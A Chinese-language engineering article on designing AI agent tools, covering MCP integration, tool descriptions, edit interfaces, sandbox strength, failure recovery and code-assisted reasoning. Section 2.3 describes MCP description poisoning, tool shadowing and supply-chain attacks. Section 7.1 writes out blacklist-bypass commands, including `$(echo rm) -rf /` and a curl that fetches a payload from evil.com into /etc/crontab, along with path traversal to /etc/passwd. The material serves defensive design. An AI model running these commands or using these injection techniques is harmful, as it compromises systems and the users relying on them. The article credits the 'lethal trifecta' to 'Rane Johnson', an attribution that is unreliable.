




# 动作空间：把工具做成可发现、可审计、可自造的接口

第 02 篇（[执行核心](./02-执行核心.md)）已经把"本轮模型能看见哪些动作、选错了怎么排查、执行怎么被约束"讲完了。那是一篇**分配**的文章：动作是既有的，工程负责给它划范围、加闸门。这一篇讲的是**供给**——动作从哪来、以什么形态存在、不够用时怎么办。三个问题在评审会上常被合并成一句"我们接了 MCP，工具都齐了"，然后就没人再追问：

- 5 个 MCP 服务器还没开始对话就吃掉近三成窗口。你接进来的是能力，还是 token 债？
- 工具描述写得工整，模型照样选错。换了模型还是错——问题根本不在模型。
- Agent 说"这个我没工具"，转手自己写了段代码把事办了。你的架构里有没有给这条路径留位置，还是它只能算越权？

这一篇的组织线索是三句话：**接口决定能力怎么进来（MCP 与 Skill），形态决定模型怎么用它（专用 / 通用 / 代码），代码决定动作空间能长多大（Coding Agent 与自造工具）。** 三层各有一套失控方式，也各有一套护栏。

---

## 一、先定位：三个问题不要混着答

### 1.1 与执行核心的分界线

分界很好划，随时能拿来检查自己写重了没有：

| 问题 | 归谁 |
| --- | --- |
| 本轮把哪些工具放进候选集、超量了怎么降维 | 执行核心（分配） |
| 工具选错怎么分层排查、准入四关怎么排 | 执行核心（分配） |
| 一个能力该做成专用工具、通用解释器，还是 SKILL.md | 本篇（形态） |
| MCP 接进来时 schema 谁负责披露、信任边界扩到哪 | 本篇（接口） |
| 缺工具时 Agent 能不能自己写一个、写完算不算数 | 本篇（代码） |

一句判据收住：**分配层管"概率该看什么"，供给层管"能力该长成什么样"。** 供给没做好，分配层的招全是补救。

### 1.2 动作空间这个词到底指什么

模型的输出只有一个：token。所谓"它能做什么"，其实是 Harness 把某些 token 序列解释成某种副作用。所以动作空间是**设计出来的**，不是模型自带的。 Manus 那类通用 Agent 的做法最能说明问题：它不去提升模型本身，而是把 Deep Research、Coding、Computer Use 三类接口的**并集**塞进去，等于把观察空间和动作空间同时撑大。工程上的杠杆在这儿，不在换模型。

顺带把工具的五类分法钉住，后文按类讨论才不会串台：**感知**（读、查、搜）、**执行**（写、发、删、部署）、**协作**（派子 Agent、发消息）、**事件触发**（定时器、监听、通道连接）、**用户沟通**（发消息、附图、加推送）。前五类按"调用方向 × 作用对象"两坐标切，基本不重不漏。这一篇的主体是前两类的工程做法，后三类在协作篇已经讲过派工与交接，这里只补它们作为工具接口的形态选择。

---

## 二、接口层：MCP 解决接入，不解决信任

### 2.1 它省掉的到底是什么

没有统一协议之前，接一个内部系统要写一套客户端、一套鉴权、一套错误处理：M 个 Agent 接 N 个系统，最坏是 M×N 份胶水。MCP 把这 N 份收敛成 N 个 server，Agent 侧只保留一个客户端。它的结构就是标准的客户端-服务器：工具输入用 JSON Schema 定义，本地走 stdio，远程走 Streamable HTTP（早期的 SSE 传输已经弃用，老教程里还在抄它）。三原语各管一摊，别混：**tools** 是有副作用的动作、**resources** 是只读且可浏览的数据、**prompts** 是模板。

省下来的成本是真省：引入一条能力压到一条命令。但同一句话的另一半是：**信任边界也一起被压进来一条命令的距离。** 这是本节最想让你带走的东西，下面全部展开。

### 2.2 披露策略不归协议管，归宿主管

客户端一连上就 `tools/list`，拿到的是**全量**定义。协议没说这些定义该往哪放，放多少——这一步是宿主（Host）的决策，而且不同宿主做法差得极远：

- 全量注入 system prompt 顶部：5 个 MCP server 就能引入数万 token，200K 窗口里对话还没开始就先烧掉近三成。工具定义是静态前缀，一注入就压在所有后续轮次的成本上。
- 只留名称索引：Agent 默认只看到工具名的列表，需要时再查具体定义。Cursor 把工具描述同步到文件夹、按需查询，A/B 测下来 MCP 相关任务的总 token 消耗降了 46.9%。
- 转成延迟项 + 检索：Codex 那套的做法是 MCP 工具整体转 Deferred，`tool_search` 只把 schema 写回历史——**搜索是补说明书，不是开权限**（细节见执行核心篇）。

三条路都在解决同一个问题，但**只有第三条把"看见"和"能调"分开**。前两条改的是 token，第三条改的是权限模型。选型的时候先问自己要的是哪个。

### 2.3 三类风险，一类比一类隐蔽

统一接入协议是个放大器：它同时放大了别人给你投毒的效率。三类风险按"要付出多少前提才能触发"排：

| 风险 | 载体 | 为什么危险 | 缓解落在哪一层 |
| --- | --- | --- | --- |
| Description 投毒 | 工具定义本身 | 攻击面从"用户输入"搬到"工具描述"，而描述是宿主必然读的东西。延迟加载的宿主更麻烦：毒不在场，等工具被检索载入时才生效 | 上下文层：把 description 当不可信输入审 |
| 同名遮蔽（tool shadowing） | 工具命名空间 | 后注册的 server 覆盖前一个同名工具，用户以为在用自己审过的接口 | 执行层：注册冲突必须硬失败，不做静默覆盖 |
| 供应链 / 劫持更新 | server 实现 | server 是第三方代码，更新即换实现；带脚本的 Skill 多一整类风险（插马、运行时再下载） | 执行层：锁版本 + 最小权限凭证 + 扫描（扫描不万能） |

三条的缓解分工要记住：**上下文层管"读它的时候别信它"，执行层管"就算信了也做不出危险动作"。** 只靠前者等于没做，原因见协作篇的注入防御——指令与数据在模型眼里本来就不可分。另有一件便宜的兜底：Sidecar 评审器只看结构化字段（工具名 + 参数），不看自然语言，毒就绕不到它。

### 2.4 MCP 与 Skill：一条命令进来的是两种东西

两者都在压"引入能力的成本"，但装的是不同性质的东西，成本模型也不同：

- **MCP 给的是接口**。工具定义数百 token 一个，可执行、有副作用、有权限面。
- **Skill 给的是流程知识**。一个 `SKILL.md` 配脚本与素材，启动时目录里只露 `name + description`（几十个 token 一项），命中才展开正文，正文再按需引子技能与脚本——这就是渐进式披露。
- **形态选择与披露数量是两个独立决策**。"要不要做成 Skill"和"本轮给它露出几条"不能混在一起谈；官方生态现在也在推 Skills over MCP，理由就是同一件事用文档表达比用 schema 表达便宜得多。

有一句判据随时能拿出来用：**这条能力缺的是"能不能做"，还是"该怎么做"？** 缺前者接接口，缺后者给 Skill。把流程知识做成 MCP server 的系统，最后会长出一堆只做编排的伪工具——它们既占 schema 预算，又没法被权限系统正确描述。

---

## 三、形态层：专用、通用、Skill，各付各的账

### 3.1 天真做法：工具越通用越强

这是本节要拆的第一个反例。给它一个具体的输入场景：你决定"少写点接口，全丢给代码解释器"，理由很正——一个沙盒 + sympy / numpy / pandas，什么都能算。跑起来确实什么都能算，直到第一笔线上事故：Agent 在同一次任务里既算汇率，又顺手改了订单表。

通用能力扩大的**不是能力，是出错面与攻击面**。正确的切法是按不可逆性分：

- **探索、组合、计算类**用通用入口（代码解释器 + 沙盒），它换来的是组合自由度；
- **支付、删除、发信、部署**这类高风险动作必须封成专用工具：参数明确、权限受限、可审计。模型的自由发挥要在数据层之前拦住，而不是在它之后复盘。

**通用性买的是组合能力，专用性买的是边界，两者不能互相支付。**

### 3.2 什么时候该退回专用：四条理由、四个维度

反过来也成立——把所有操作塞进一个 bash 工具，看起来最省。省的是实现，付的是描述与权限。该退回专用工具的理由只有四条，都足够硬：

1. **安全、权限、审计要挂在名字上**。拦截是工具名粒度的，`bash` 这个名字下面没法表达"只读"。
2. **要屏蔽平台差异、给出结构化反馈**。grep / find 的错误信息能定位到行，模型据此能自我修正；裸 shell 输出要模型自己读，读歪是常态。
3. **调用频率极高**。每次都要现场生成同一段命令，浪费的是思考 token。
4. **参数结构复杂**。Skill 要求模型写命令行就得处理转义，比 JSON Schema 更容易错；折中写法是把复杂参数落进 JSON 文件再导入。

判据四个维度：**安全与权限 / 参数复杂度 / 变更频率 / 模型能力**。最后一维常被漏，而它最会翻账——同一道形态选择题，配 4B 小模型和配前沿模型，答案可能相反。

顺带给一条通用工具的隐藏收益：**用代码做中间编排，token 能降约两个数量级**。原因很朴素——十个中间变量留在执行环境里，只把汇总结果回传上下文；换成工具链就是十次调用、十段完整返回体一起进窗口。

### 3.3 描述是接口的一部分，而且是最贵的那部分

执行核心篇已经讲过候选集治理与"80% 时间打磨描述"。这里补三条能直接抄的写法，它们针对的是另一种失守：候选集已经很干净了，模型还是选错。

1. **写"何时用"，不是"能做什么"**。用途句是功能描述，触发条件句才是召回锚点——用户说什么话的时候该想到它。
2. **参数给具体例子，别只给格式名**。"`timestamp`：RFC3339 格式，例如 `2024-03-15T14:30:00Z`" 比单写 "RFC3339 格式" 有效得多；电话同理，"`phone`：E.164 格式（国家代码+号码，无空格或特殊字符），例如 `+8613888888888`"。理由不是模型不懂 RFC3339，而是它在复杂任务里只能分出一小份注意力来确认参数格式——省掉那一步思考，比讲清一个术语值钱。
3. **每个工具附 1~5 个真实调用示例**。Schema 表达得了类型，表达不了"时间戳是秒还是毫秒""过滤条件怎么嵌套"这类隐式约定，而例子恰好传达这些。基准上加入示例后调用准确率从约 72% 抬到 90%（具体数值随任务浮动）。

再加一条负面清单：**不适用场景要写出来**。选错工具的时候，先查描述，别先换模型——绝大多数"模型不行"的现场，是描述没告诉它什么时候不该用。

### 3.4 传参透明：静默"智能修正"是把世界劈成两半

第二个要拆的反例，起点很善意：模型老传中文弯引号 `“”`，工具要 ASCII 直引号，于是 Harness 加了个规范化，悄悄替换掉。看起来修好了。

结果 `old_string` 永远匹配不上——因为模型以为世界是弯引号，工具操作的世界是直引号，而它看不见这层改写，无法自我诊断，只会一遍遍重发。另一个现场更狠：对 `git commit` 追加一个"AI 标记"参数，旧版 git 直接报错，用户看到的是一条毫无关系的失败信息。

原则一句话：**要么按原样执行并如实返回错误，要么显式告知做了改写；绝不在模型看不见的地方替它修改输入。** 规范化必须在描述里说明、在返回里告知，快速失败优于聪明修正。这条纪律的本质是：**模型对世界的推理建立在"它传出去的东西就是被执行的东西"这个假设上，你偷偷改一个字符，它整条因果链就断了。**

---

## 四、Coding Agent：动作空间的极限形态

### 4.1 七件工具，为什么不是六件

通用 Agent 的内核可以写成一个等式：**通用 Agent = Coding Agent + 文件系统**。支撑它的最小工具箱是七件：**代码解释器（沙盒）、Bash、读文件、写文件、编辑、Glob、Grep**。七件里读和写为什么不并进 Bash？因为单独存在的读写工具能显著降低改错文件的概率——路径参数明确、返回可控、可被权限系统单独描述。反过来，Codex 的做法是另一种极端：只留 shell 作为通用执行入口，文件修改交给一个语法受约束的 `apply_patch`——**把编辑表达成结构化补丁，而不是自由文本命令**。两条路都成立，赌的东西不同：前者赌"边界写进接口更稳"，后者赌"约束写进语法更稳"。

一个最小的协作例子，"把项目里所有 TODO 注释整理成清单"：全程只用 Grep 和 Write 两件；如果要"统计每个模块的 TODO 数量并画柱状图"，才会多叫一次代码解释器。**七件工具的组合空间，比单件能力的并集大得多**——这是动作空间设计的核心红利。

### 4.2 编辑接口的五方案，和它们的失效方式

文件编辑这件事看着小，是 Coding Agent 最高频的失败源。五方案排开：

| 方案 | 做法 | 失效方式 |
| --- | --- | --- |
| 差异描述 + Apply Model | 大模型说"在哪改什么"，小模型合并成完整文件 | 相似片段合并错位；Cursor 已弃用 |
| old→new string | 给出被替换原文与替换后文本，存在且唯一才成功 | 删大段要全文输出；错一个字符即失败 |
| 行号定位 | 给首尾行号区间 | 一次思考里多处编辑必须统一按初始行号，否则行号自己漂移 |
| 类 Vim（hjkl / 动作序列） | 让模型像人一样敲编辑器 | 小模型错误率明显上升，改后行号无法预先算准 |
| 首尾匹配 | 只给待删段的头几行与尾几行，唯一即定位 | 需要删的段本身不唯一时退化 |

类 Vim 为什么最差？**Vim 是为"人类持续看着当前状态、规划下一步"设计的**，而模型的形态是长思考 + 批量复杂操作：它在生成动作序列时看不到中间状态。这条根因值得记住，它是"把人类工具直接搬给 Agent"这类设计最常见的翻车模式。

选型判据只有一条：**可预测性优先于表达力**。当前主流收敛到 old→new string（Claude Code、Codex、以及改回这条路的 Cursor），正是这个判据的结果。

### 4.3 文档化四件套，是最便宜的稳定前缀

一个能长期干活的 Coding Agent 从不在每次对话里重新解释项目。它把这些写进文件，每会话注入：`CLAUDE.md` / `AGENTS.md` / `.cursorrules`（项目约定）、`SOUL.md`（身份）。这一层的工程价值不在内容，在**位置**：它是整条请求里最经济的稳定前缀——静态、可缓存、每轮都在。

标准流程五段：**文档化 → 需求澄清 → 设计文档 → 实现 + 测试-修复循环 → 自检 / lint / 审查子 Agent → 更新架构文档**。中间"设计文档"那段的存在理由很实际：审一份文档比审几百行代码容易。而**判停标准要写成"测试通过"，不是"模型说改好了"**——最常见的偷懒就是跳过测试直接报完成。

### 4.4 Harness 四组件与四象限

四组件缺一个，Agent 就从"能干活的工具"退化成"很贵且很会编故事的人"：

- **验收基线**：测试、CI——没有它，"完成"没有定义；
- **执行边界**：模块范围、权限——没有它，改哪儿全凭概率；
- **反馈信号**：Linter、类型检查——没有它，错误要等到跑起来才暴露；
- **回退**：Git、沙盒、快照——没有它，一次错误就是事故。

两条轴切出四象限，拿来评审现有项目最省事：

| | 可自动验证 | 不可自动验证 |
| --- | --- | --- |
| **目标明确** | 最佳区，放心让它跑 | 低效的勤奋 |
| **目标模糊** | **高效跑偏**：反馈越灵敏，跑得越远 | 别上自动化，先补定义 |

四条原则：**约束优先于指导**（"做不了"比"建议别做"有效得多）；**验证自动化**；**反馈越快越结构化越好**；**回退可靠**。故障边界也要写清：同批并行调用内的失败就地处理，不上升父级——三个文件读一个 404，不该取消另外两个。

---

## 五、感知工具：返回值才是上下文成本的主体

工具层最容易写、也最容易写坏的一类。坏不在功能，在返回体。

天真做法：`read_file` 老实返回全文，`web_search` 把前十条结果的正文拼起来返回。跑一次 demo 没问题，跑一次真实任务就把窗口烧完——感知工具的输出是**逐轮累积**的，一次 10KB 的返回会在之后每一轮被重新计费。

四条治理动作，每条都对应一个可检查的实现点：

1. **超阈值按当前意图压缩**。输出超过阈值（比如 10,000 字符）时，压缩策略要按"这次查询想解决什么"来做，不是无差别保头去尾。
2. **搜索返回结构化候选，不返回拼接全文**。字段是标题 / 位置 / 摘要片段，配 `cursor`、分页与**总数**。总数很关键：没有总数，模型不知道自己看到的是第几页，也就没法判断"还要不要继续翻"。
3. **读取支持 `offset` / `limit`，截断必须显式**——"已显示第 1-200 行，共 5000 行，可用 offset 继续读"。这和上下文篇讲的"把'给你的不是全文'变成模型可推理的前提"是同一条原则在工具层的落地；静默截断会让模型把摘要当成全量来下结论。
4. **只读有两条红利，都要付对价**。一是缓存：但缓存键必须包含**用户身份与授权范围**，否则会把 A 的权限结果喂给 B；天气、股价这类要设 TTL。二是并行：读 5 次、搜 3 次同时发，延迟明显降——对价是第三方速率限制，以及**快照不一致**（并发读的是同一时刻的五个不同真相）。

### 5.1 多模态三条路线，按"看几次"选

一份 PDF 怎么进上下文，三条路线的账完全不同：

| 路线 | 做法 | 成本 | 上限 |
| --- | --- | --- | --- |
| 原生多模态 | 图像切 patch 进共享嵌入空间 | 最贵，一页截图上千 token | 最高，版式与图表都在 |
| 提取为文本 | OCR / 解析成文字 | 几百 token | 丢版式、丢图表走势 |
| 工具化分析 | `analyze_image` / `analyze_pdf` / `analyze_audio`，收文件 + 自然语言问题，只回结论 | 每轮恒定 | 取决于提问质量 |

判据一句话：**这份材料是每轮都要在场，还是只需要回答一个问题？** 前者进上下文，后者走工具。上下文篇写过"大图默认不进上下文、模型用 `view_image` 显式索取"，是同一件事的服务端版本。

**感知工具的返回体设计，决定这条通道每轮的边际成本；工具描述决定它被不被选中。两件事谁都替代不了谁。**

---

## 六、事件触发与用户沟通：把世界接进来的两类工具

前面三层都在讲"模型主动出手"。剩下两类工具的性质相反：**让世界在约定的时刻找到模型**。这一节只讲它们的接口形态，事件怎么被消费、打断在哪儿发生，留给[触发时机与交互](./09-触发时机与交互.md)展开。

### 6.1 三类事件触发工具

- **`set_timer`**：一次性定时（"下周一 10:00 提醒"）。它真正解决的问题是那些**循环轮询也无法被推送**的服务——没有 webhook，就只能自己造一个未来的事件。
- **`monitor_shell`**：只把**新增输出**或**命中关键词**的部分回报。它的价值在两个失败模式之间取中间：不断主动查进展，烧的是 token；完全不查，卡死了没人介入。
- **`connect_channel`**：连一条实时通道（IM、邮件、回调），把外部事件源变成推。

设计要点三条，缺一条就变成噪声发生器：**清晰的触发条件、能过滤的规则、载荷自带上下文**。第三条最常被省——事件进来时如果只有一句"有变化了"，模型还得再调一次工具去问是什么，白白多一轮。

### 6.2 用户沟通要显式成工具

一个反直觉但正确的决定：**assistant 消息不再直接呈现给用户**，改用专门的发送工具。理由不是形式，是能力：走工具之后才能附图、附文件、按紧急度决定是否推送，才能对同一次任务分多次触达。**通知本身就是召回**——它把用户拉回对话，所以推送强度是产品决策，不该由模型随手决定。

### 6.3 虚拟身份与数据交换

全天候运行的 Agent 需要一套自己的身份与机器：**独立邮箱、电话、存储与计算**，配 VM 或 Android 模拟器。三个好处都很实际——全天候可用、崩溃不影响真机、避免它随意访问本地文件。两个麻烦也必须提前认：**反机器人**（数据中心 IP 很容易被识别，需要住宅代理）与**需要本人登录**（用 Human-in-the-Loop：VNC / RDP 让用户亲自登录，令牌有效期内复用）。

跨系统传数据走卷挂载的共享目录（`/workspace/shared`），**只传路径字符串，不传内容**。内容和上下文之间隔一个文件，读不读、读多少，交给模型按需要决定。

---

## 七、执行边界：沙盒的强度阶梯与"黑名单只是地板"

### 7.1 防护层要按顺序排，每层挡的是不同的错

天真做法是"加个命令黑名单"。问题是变形无穷：`$(echo rm) -rf /` 绕过字符串匹配，`find … -exec rm {} \;` 里恶意命令挂在合法工具上，`curl -o /etc/crontab http://evil.com/payload` 每一步都是常见用法。所以正确顺序是四层，一层比一层可靠：

1. **输入验证**：路径遍历（`../../etc/passwd`）、分号与管道注入，先快速失败；
2. **权限控制**：工作目录白名单在最上面，黑名单只是最底层——命令校验必须做**语义解析**，理解参数类型和哪些标志位会吃掉下一个参数；
3. **事前审批 + 事后验证**：审批要异源同能力（拿弱模型审强模型审不动，Haiku 审 Opus 就是这种局面），两个模型的底层规则与上下文必须一致、关注点不同；拒绝理由要作为工具调用结果写进轨迹，让它可归因。事后验证优先做**模态切换**：文本渲染成图查排版，配置在沙盒里实跑一遍;
4. **Sidecar 旁路**：与主流式输出并行、门控单次调用，输入刻意只取结构化字段（`{"tool":"bash","command":"rm -rf /tmp/data"}`），数百毫秒内决断，配拒绝熔断器转人工。

Proposer-Reviewer 与 Sidecar 的差别一句话说清：**前者是"批不批"，后者是"来得及批吗"。**

### 7.2 沙盒强度四级：venv 不是沙盒

最常见的自我安慰是"我们跑在虚拟环境里"。venv 只隔离包，不约束文件、网络与进程——它不是沙盒。强度递增：

**进程级（ulimit / seccomp，共享宿主）→ 容器（共享内核，存在逃逸面）→ microVM / VM（独立内核，Firecracker 一类）**，每一级都要配 CPU / 内存 / 磁盘 / 网络配额与超时。两条容易漏的细节：

- **超时必须返回结构化错误**（"执行超过 120 秒被终止，最后输出如下……"），静默杀进程会让模型把"没输出"当成"成功了"；
- **默认断网 + 白名单代理**（只放包源、文档站、必需 API），源码只读挂载，`~/.ssh` 与密钥**根本不挂进去**。

### 7.3 致命四要素：判断"这个 Agent 能不能给生产"的尺子

Rane Johnson 那条"致命三要素"——能读私有数据、能接触不受信内容、能对外通信——三者同时具备就意味着注入可以造成真实损害。我建议在它后面补第四维：**持久记忆**。它不是必要条件，是放大器：一次注入的后果从"这次任务"扩到"之后所有任务"。

| 边界 | 要守住什么 | 失守的样子 |
| --- | --- | --- |
| 数据 | 私有数据的读取范围 | 一次性把整棵目录树读进上下文 |
| 输入信任 | 不受信内容与指令的隔离 | 网页正文被当成用户意图执行 |
| 输出影响 | 对外通信、写入、删除 | 一封"确认邮件"发给了攻击者 |
| 跨会话 | 记忆与 Skill 的写入准入 | 注入被总结成经验，此后反复生效 |

四条边界里最贵的认知是：**输入过滤挡不住注入，目标要改成"即使被注入，也执行不出危险动作"。**

顺带一件和忠诚有关的事：Agent 替你和外部方对话时，"太老实"与"太多疑"是一根跷跷板。把"底价 12000"抖给对手是失守，逢人便拒则是失能。守则五条：保护主人隐私甚至不泄露其存在；拒绝时不念清单；私下底线不等于对外立场；只执行明确具体的指令；顶得住重复施压。外部交互方的内容一律降格为"可参考、无指令效力"。

---

## 八、故障与恢复：四层分类、三级阶梯、每条路径都要上限

### 8.1 先分类再计数

故障按来源分四层，处置完全不同：

- **API 层**：429、过载、响应截断；
- **工具层**：幻觉调用、参数畸形、同一错误反复重试；
- **上下文层**：溢出、压缩失败、缺配对的 tool result；
- **控制流层**：死循环、死亡螺旋。

检测动作两步：**先按可重试 / 不可重试建映射表，再计数**。计什么很关键——不是计失败次数，而是按"工具名 + 参数指纹"查**无进展重复**；每条恢复路径独立计数，不要共用一个计数器，否则一条路径的噪声会熔断另一条。超时用 **idle watchdog**，不要用连接超时：SDK 的超时往往只覆盖建连，流式响应卡在中途它不管。

### 8.2 恢复三级，降级不是免费的

1. **静默重试**：指数退避 + 抖动 + 尊重服务端等待提示。一条反直觉的纪律：**前台调用才重试，后台辅助调用直接放弃**——后者重试会引发"重试放大"，把一次故障变成十倍流量。
2. **降级接续**：输出触顶先提升上限重发，再追加元指令续写；主模型过载要降备用模型——**必须先把旧厂商的私有格式块剥掉**，直接搬运历史会以厂商真实报错失败。
3. **暴露给用户**：前两级都用尽才轮到它。

工具报错不终止会话，以普通 tool result 的身份喂回模型——它是最有用的信号，藏起来只会让模型瞎猜。

跨厂商接管这件事，一句话能讲透：**思考 = 可读文字 + 厂商签发的凭证，文字带得走，凭证带不走。** 所以轨迹要存中立格式，标识符按目标厂商重新生成，必要时把历史调用改写成文字叙述；厂商自己返回的思考摘要本来就是为这个场合准备的可移植副本，保留即可，不必再调一次模型压缩。

### 8.3 每条恢复路径都要有上限，阈值来自生产数据

恢复机制自己也会失效。压缩连续失败若干次就放弃压缩，权限分类连续失败就退回人工询问，输出接续最多固定轮数。阈值从哪来？答案是线上统计，不是拍脑袋：Claude Code 的压缩熔断取"连续 3 次"，因为曾有一个会话在这条路径上连续失败三千余次，仅这类无效重试每天在全球造成约 25 万次 API 调用，另有逾千个会话出现过 50 次以上连续失败——3 次正是"绝大多数故障在此之前已恢复"与"继续重试基本无可能"之间的经验拐点。

死亡螺旋的经典形态一定要认得：**上下文溢出 → 停止钩子调 LLM 生成 commit message → 再生成又把窗口撑爆 → 再触发钩子**。打断它靠三条：**错误路径上禁用一切会再调模型的副作用**、递归深度计数器、全局最大轮数 / 预算 / 人工升级。三条里第一条最常被漏，因为"记个提交说明而已"看起来无害。

---

## 九、代码作为思考工具：什么时候必须算，不能想

模型是概率近似，数学与逻辑要确定精确。这个错配在简单题上就能看见：

> 40 人里 60% 选了数学、45% 选了物理、25% 两门都选，问只选物理的有几人？

纯自然语言推理最常见的写法是 `40 − 24 = 16` 一路减下去，把"选数学的人数"误用成"只选物理的人数"，还差一步就写出"45% 是 18 人"。换成代码：`phys − both = 18 − 10 = 8`，一行，错不了。**分工是 Wolfram 那条路：LLM 负责把自然语言形式化，SymPy / 约束求解器负责算。**

但这一节真正的价值不在"代码更好"，在两个诚实的实测结果——它们比结论更重要：

- AIME 2024 三十道题，代码臂 53.3% 对纯思考 36.7%，方向符合预期，但 **p = 0.125，不显著**；
- K&K 逻辑谜题 84 题，代码臂 **39.3% 对纯思考 75.0%**，比正文预期低了三十多个点——代码这条臂在这里是**负结果**。

还有一条反复出现的规律：**模型与 Harness 此消彼长**。强模型下代码辅助的增益会收敛到接近零；同一套脚手架配不同模型，结论可能相反。所以别把某个实验的收益写成普适结论，要写成"在某个模型档位上的实测"。

**能用代码换确定性，换不来模型的因果推理**——这是本节该带走的那句。

### 9.1 业务规则写成代码：两层价值，守门员却不在模型这边

第三个常见反例最朴素：把"7 天可退"这类规则写成自然语言，让模型现场判断。它判得又快又自信，然后在边界上错。

写成可执行规则（比如 `cancel_reservation` 五条：任一段已用不可取消 / 预订后 24 小时内无条件 / 航司取消总可 / 商务舱总可 / 基础经济与经济须购险）有两层价值：

1. **`expected_cabin_class`、`expected_has_insurance` 这类前置字段是强制清单**——为了填它，模型必须先查订单详情。这个价值比规则本身还大，因为模型常年在调用之前就自己替用户拒了。
2. **守门员是服务端真值**：舱位、保险、航段、航班状态全部查库，`now = server_clock.now()`，与模型填写不一致时记 `log_mismatch`。

